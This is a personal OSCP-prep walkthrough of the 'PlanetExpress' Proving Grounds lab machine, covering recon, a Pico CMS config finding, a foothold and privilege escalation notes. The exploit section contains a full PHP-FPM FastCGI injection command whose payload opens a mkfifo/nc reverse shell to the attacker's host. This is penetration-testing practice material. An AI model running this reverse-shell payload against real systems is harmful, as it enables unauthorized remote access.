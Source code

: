 # PlanetExpress Walkthrough
Name: PlanetExpress
Date:  22/09/2022
Difficulty:  Easy
Goals:  OSCP Prep 1/5 machines a day testing (can use walkthrough)
Learnt: 
- `/usr/share/seclists/Discovery/Web-Content/quickhits.txt`
- I need make a dictionary of wordlists and flowchart of wordlists per situation - Instill questions of methodology
- Metacognitive Linux enlightment through SUID exploit that was more than just a GTFObins  

Had a rough day so my recon not very well as I tripped up recursively thinking about how my recon was doing, but feroxbuster had already found the /.git that has the vulnerable Pico (had the github opne) and I already searchsploited; so really my attitude and the lack of personal mentalised cleaning of previous events of the day really busted this one.  I also did not connect PHP -> PIco therefore varient of phpmyadmin.php

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/PlanetExpress/Screenshots/ping.png)

Pico CMS Version - ?

![](csrf.png)

![950](fh5co-header-subscribe.png)

This is where I tripped up. I did not patiently check the source of Pico for the config directory.

![](config-yml.png)

## Exploit && Foothold
[Fastcgi PHP-FPM Client && Code Execution](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)
```bash
# Has to be port 80
python3 fpm.py -c "<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc $LHOST 80 > /tmp/x\"'); ?>" -p 9000 $target-ip /var/www/html/planetexpress/plugins/PicoTest.php
# The first flag
cat /home/astro/local.txt
```

## PrivEsc

Ran LinEnum.sh and some manual PrivEsc commands, had a more metacognitive moment of connecting file permissions - binary - suid bit and as followed the walkthrough explore how to think about the suid binary exploit